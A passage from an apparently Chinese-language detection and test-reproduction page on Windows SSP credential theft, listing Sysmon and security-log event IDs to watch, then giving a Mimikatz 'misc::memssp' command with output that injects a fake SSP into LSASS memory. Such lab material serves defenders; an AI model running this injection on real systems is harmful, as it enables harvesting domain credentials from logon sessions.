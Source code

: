 ## 检测日志

**Windows安全日志**  
- **事件ID 4688**：记录`mimikatz.exe`、`reg.exe`或`lsass.exe`的进程创建。  
- **事件ID 4656**：记录注册表键（如`Security Packages`）的访问。  
- **事件ID 4658**：记录注册表句柄关闭。  

**Sysmon日志**  
- **事件ID 1**：记录进程创建，包含`mimikatz.exe`或`reg.exe`的命令行参数。  
- **事件ID 7**：记录`lsass.exe`加载的DLL，检测非系统SSP DLL。  
- **事件ID 13**：记录注册表修改，如`HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`。  
- **事件ID 11**：记录DLL文件（如`mimilib.dll`）的创建或写入。  

**配置日志记录**  
- 启用注册表审核：`计算机配置 > 策略 > Windows设置 > 安全设置 > 高级审核策略配置 > 对象访问 > 审核注册表`。  
- 启用命令行参数记录：`计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。  
- 启用模块加载日志：`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe`设置`AuditLevel=8`（Windows 8.1+）。  
- 部署Sysmon以增强注册表、进程和模块监控。

## 测试复现

### 环境准备
- **靶机**：Windows 10或Windows Server 2012+（建议Windows Server 2008+以启用Sysmon）。  
- **权限**：SYSTEM权限（注入或注册SSP）。  
- **工具**：Mimikatz（含`mimilib.dll`）、Sysmon、注册表编辑器。  
- **测试DLL**：使用Mimikatz提供的`mimilib.dll`（确保与系统架构匹配）。  
- **日志**：启用Windows安全日志、Sysmon和注册表审核。  

### 攻击步骤

#### 方法一

使用mimikatz将伪造的SSP注入内存，这样做不会在系统中留下二进制文件，但如果域控制器重启，被注入内存的伪造的SSP将会丢失。

```dos
mimikatz.exe "privilege::debug" "misc::memssp" exit
```

```test
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug
" "misc::memssp" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::memssp
Injected =)

mimikatz(commandline) # exit
Bye!
```
